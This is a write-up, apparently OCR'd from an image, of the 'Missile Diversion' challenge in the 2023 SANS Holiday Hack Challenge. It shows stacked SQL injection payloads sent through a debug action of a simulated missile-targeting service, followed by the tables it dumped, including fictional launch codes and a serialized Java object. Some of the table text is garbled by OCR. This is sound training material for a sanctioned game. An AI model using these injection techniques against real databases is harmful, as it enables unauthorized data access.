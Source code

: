 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## Missile Diversion
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Thwart Jack's evil plan by re-aiming his missile at the Sun.

### Solution
Re-utilizing the same environment from before, I used the `Consumer Test Tool` to connect to `maltcp://10.1.1.1:1024/nanosat-mo-supervisor-Directory`, start the `missile-targeting-system`, and then connecting to `maltcp://10.1.1.1:1026/missile-targeting-system-Directory`. This exposes the `Debug` Action Service along with 4 Parameter Services: `PointingMode`, returning the current pointing mode, `X` and `Y`, returning the coordinates, and `Debug`, returning the last output from the `Debug` Action Service. Trying to set `X`, `Y` and `PointingMode` was not giving any result. I then tried submitting the `Debug` Action without any input and the `Debug` Parameter Service returned the string `VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204`, clearly identifying the interaction with a DB. I tested the action service for common SQL injection by using the attribute value to inject the payload, eventually finding `;[PAYLOAD]` as a resilient injection pattern. I then enumerated the tables in the database and their content:
> **Query**:  
>> ; SELECT * FROM pointing_mode_to_str  
> **Results**:
>> id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth.  
>> id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. \|

| ; SELECT * FROM user_variables | java.sql.SQLSyntaxErrorException: (conn-3488) SELECT command denied to user 'targeter @'172.18.0.4' for table missile_targeting system. 'user_variables |
| ; SELECT * FROM messaging | id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \|  
id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \|
11.2.2-MariaDB-1:11.2.2+maria-ubu2204 \|
id: 3 msg_type: LaunchCode \| msg_data: DLG2209TVX \|
id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED
id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED
id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \|
id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \|
id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \|
id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \| |
| ; SELECT * FROM pointing_mode | id: 1 \| numerical_mode: 0 \| |
| ; SELECT * FROM target_coordinates | id: 1 lat: 1.14514 \| Ing: -145.262 \| |
| ; SELECT * FROM satellite_query | jid: 1 \| object: ........sr..SatelliteQueryFileFolderUtility.......................Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java \| results: import java.io.Serializable;
# Output removed to shorten report
public class SatelliteQueryFileFolderUtility implements Serializable {
# Output removed to shorten report |


